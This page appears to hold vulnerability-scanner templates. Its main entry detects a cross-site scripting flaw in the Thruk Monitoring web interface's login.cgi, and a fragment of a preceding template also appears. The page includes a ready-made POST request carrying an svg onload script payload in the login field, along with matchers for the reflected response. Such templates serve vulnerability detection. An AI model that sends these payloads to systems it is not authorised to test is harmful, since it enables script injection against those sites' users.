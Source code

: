### Matchers

**Type - word**
- part - body
- words
    1. "cf_main_cf" src="javascript:alert(1)"

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Thruk Monitoring Webinterface - Cross-Site Scripting
## Description
- Thruk Monitoring Webinterface contains a cross-site scripting vulnerability via the login parameter at /thruk/cgi-bin/login.cgi.

- severity - high
- tags - thruk,xss
## Requests
### Step - 1
```
POST /thruk/cgi-bin/login.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

referer=&login=%22%3Csvg%2Fonload%3Dalert%28document.domain%29%3E%22%40gmail.com&password=test&submit=Login

```
### Matchers

**Type - word**
- words
    1. \<svg/onload=alert(document.domain)>"@gmail.com') called at

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 500

---